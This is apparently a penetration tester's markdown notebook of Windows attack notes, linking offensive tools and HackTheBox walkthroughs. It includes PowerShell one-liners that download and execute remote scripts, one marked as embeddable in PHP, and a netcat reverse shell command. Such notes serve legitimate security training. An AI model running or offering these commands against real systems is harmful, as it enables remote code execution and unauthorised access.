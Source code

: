 ```yaml
---
description: 'Sorted Linux notes, need to separate to different pages and reorganize'
---
```


# Windows Notes

living off the land binaries: [LOLBAS](https://lolbas-project.github.io/)

## Enumeration

Windows Privilege Escalation Enumeration Script: [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Little bit o' everything: [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)

## Unsorted

Powershell full path: `C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

Powershell "wget" and execute remote code:

```text
powershell "Invoke-Expression(New-Object Net.Webclient).downloadString('http://<ip>:<port>/<filename>')"
```

Powershell Script Execution Bypass: \[can embed in php too!\]:

```text
echo IEX(New-Object Net.WebClient).DownloadString(http://<ip:port/filename.ps1>) | powershell -noprofile -
```

Powershell reverse shell and exploit scripts: nishang [Ippsec:HacktheBox - Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)

Netcat reverse shell \(after uploading the binary!\): `nc64.exe -e cmd <ip port>`

tools: [https://specterops.io/resources/research-and-development](https://specterops.io/resources/research-and-development)

easy windows shell: unicorn.py [trustedsec/unicorn](https://github.com/trustedsec/unicorn) [HackTheBox - Arctic](https://www.youtube.com/watch?v=e9lVyFH7-4o)

system information: `sysinfo`

Get user id: `getuid`

Powershell privilege escalation:

* [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) from PowerShellEmpire
* Sherlock.ps1

[fuzzbunch](https://github.com/peterpt/fuzzbunch): exploit tool similar to metasploit

check what updates are installed: `type WindowsUpdate.log`

net use share from linux \[like SimpleHTTPServer for Samba\]: `impacket-smbserver <sharename> '<dir_to_share>'`

